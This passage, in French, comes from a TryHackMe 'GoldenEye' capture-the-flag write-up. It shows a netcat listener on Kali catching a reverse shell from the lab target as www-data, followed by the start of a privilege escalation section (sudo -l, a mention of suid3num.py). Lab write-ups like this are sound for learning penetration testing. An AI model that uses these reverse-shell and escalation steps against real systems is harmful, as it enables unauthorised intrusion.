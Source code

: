 ```
┌──(kali㉿kali)-[~/THM/goldeneye]
└─$ nc -nvlp 12345
listening on [any] 12345 ...
connect to [10.9.2.173] from (UNKNOWN) [10.10.43.2] 54414
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ whoami
whoami
www-data
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ 

```

### <mark style="color:orange;">**Nous voilà entrés dans la machine**</mark>

## \[Task 4] Privilege Escalation

[Transférons les fichiers nécessaires de la machine Kali vers la machine cible](outils.md#transfert-de-fichiers) et utilisons [ma méthode générique d'analyse des possibilités de 'privilege escalation'.](outils.md#privilege-escalation)

### sudo -l

```
www-data@ubuntu:/dev/shm$ sudo -l
sudo -l
[sudo] password for www-data:
```

Inexploitable

### [suid3num.py](outils.md#privilege-escalation)
